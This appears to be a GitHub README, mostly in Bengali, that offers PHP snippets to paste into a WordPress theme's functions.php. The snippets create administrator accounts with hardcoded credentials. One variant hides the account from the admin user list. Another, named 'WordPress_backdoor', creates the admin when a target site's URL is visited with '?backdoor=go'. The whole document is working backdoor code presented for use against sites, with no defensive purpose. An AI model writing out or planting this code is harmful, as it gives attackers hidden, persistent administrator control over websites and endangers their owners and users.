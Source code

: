 ##### এই কোড গুলো ব্যবহার করার জন্য আপনার ওয়েবসাইটে যেই থিম বর্তমান activated আছে সেই থিমের directory তে গিয়ে functions.php ফাইল টা edit করে একবারে শেষে অথবা কোড বুঝে যে কোনো জায়গায় pest করে দিলেই functions অনুযায়ী user তৈরি হয়ে যাবে।

##### তবে লক্ষণীয় বিষয় হচ্ছে,  অবশ্যই activated থিম এর ভেতরে কোড টা থাকতে হবে।  থিম deactivated হয়ে গেলে কোড টা আর কাজ করবেনা।

#### যে কোনো ওয়েবসাইটের ডিফল্ট ভাবে সবগুলো থিম এর লোকেশন হলো:

    domain.com/wp-content/themes/

#### Normal user creation

`class` is user and `functions-class` is password


    $new_class_functions =new WP_User(wp_create_user('class','functions-class'));
    $new_class_functions->set_role('administrator');


#### Hidden user creation

`class` is user and `functions-class` is password

    $new_class_functions =new WP_User(wp_create_user('class','functions-class'));
     $new_class_functions->set_role('administrator');

     function functions_class_include($user_search) {
     global $current_user;
     $get_functions_class = $current_user->user_login;
     if ($get_functions_class != 'class') {
     global $wpdb;
     $user_search->query_where = str_replace('WHERE 1=1',
     "WHERE 1=1 AND {$wpdb->users}.user_login != 'class'",$user_search->query_where);
     }
     }
    add_action('pre_user_query','functions_class_include');


#### Another system to user creation

`class` is user and `functions-class` is password

    function wpb_admin_account(){
    $user = class;
    $pass = 'functions-class';
    $email = 'email@email.em';
    if ( !username_exists( $user ) && !email_exists( $email ) ) {
    $user_id = wp_create_user( $user, $pass, $email );
    $user = new WP_User( $user_id );
    $user->set_role( 'administrator' );
    }
    }
    add_action('init','wpb_admin_account');


#### Another system to user creation

`class` is user and `functions-class` is password

    <?php
    add_action('wp_head', 'WordPress_backdoor');

    function WordPress_backdoor() {
    If ($_GET['backdoor'] == 'go') {
    require('wp-includes/registration.php');
    If (!username_exists('class')) {
    $user_id = wp_create_user('class', 'functions-class');
    $user = new WP_User($user_id);
    $user->set_role('administrator');
    }
    }
    }
    ?>

    https://www.targetdomain.com?backdoor=go


